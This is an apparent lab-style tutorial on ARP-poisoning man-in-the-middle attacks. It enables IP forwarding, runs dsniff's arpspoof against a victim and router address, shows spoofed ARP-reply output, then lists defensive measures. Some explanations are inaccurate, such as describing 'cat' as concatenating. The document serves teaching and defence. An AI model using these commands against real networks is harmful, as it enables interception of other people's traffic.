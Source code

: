 # Man In the Middle (MITM) attach - ARP Poisioning

ARP poisoning is an attack wherein fake ARP reply packets are sent on the network. It can be further categorized into two possible attacks:
- Man in the middle (MITM)
- Denial of Service (DOS)

However, we will stick our experiment to MITM only.


## Modify Routing Status

File: /proc/sys/net/ipv4/ip_forward  

It signifies the routing of the packets to the current machine, which means all the packets going the router will also get delivered to the current address as well [1].

Command to modifying the status the routing of the packet
```
// Mode changed to super user
sudo su
// Print 1
# echo 1 > /proc/sys/net/ipv4/ip_forward
// Concatenate 1 to 'ip_forward'
# cat /proc/sys/net/ipv4/ip_forward
```


## Perform packet spoof

Install **dsniff**: Library to perform the packet sniffing and spoofing
Command: `sudo apt-get install dsniff`

Command to spoof: 
`sudo arpspoof -i wlp2s0 -t 192.168.0.94 192.168.0.1`

Explanation: 
- wlp2s0: Device
- Victim Private IP: 192.168.0.94
- Router IP Address: 192.168.0.1

Output Screenshot:
![Screenshot](SpoofingResult.png)


Output:  
```
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
```

## After Spoofing

We cannot proceed further, because it would be illegal to go ahead and read some's data, but this is not the end. There are several technique followed by a real attacker to make sense of the packet and communication.


## Steps to overcome the ARP Poising

- Do not have a weak security mode for the Network, because it cannot prohibit unauthorized intrusion in the network.
- Having a weak password for the network security can be comprised if dealt with brute-force attack, or running authentication loop to authenticate with the commonly used words.
- Use CISCO routers that can help to examine the ARP spoofing.
- Detection Tools: ARP spoofing can be detected by the usage of the third-party tool like XArp
- Packet filtering and inspection can detect poisoned packets and catch them before reaching the destination (Or Attacker) [2].
- VPN can be relied upon to have a secure connections.
- Updated Browser with updated TLS/SSL.


## Reference

1. https://unix.stackexchange.com/questions/14056/what-is-kernel-ip-forwarding
2. https://www.indusface.com/blog/protect-arp-poisoning/
